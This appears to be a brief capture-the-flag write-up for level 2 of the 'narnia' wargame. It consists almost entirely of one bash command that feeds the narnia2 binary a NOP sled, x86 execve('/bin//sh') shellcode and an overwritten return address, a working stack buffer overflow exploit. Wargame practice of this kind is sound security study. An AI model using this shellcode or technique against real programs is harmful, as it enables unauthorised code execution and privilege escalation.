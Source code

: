 <img src="./img/Screenshot 2024-09-15 194902.png"></img>
For entering into narnia 2
```bash
/narnia$ ./narnia2 `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x94\xd5\xff\xff"`
```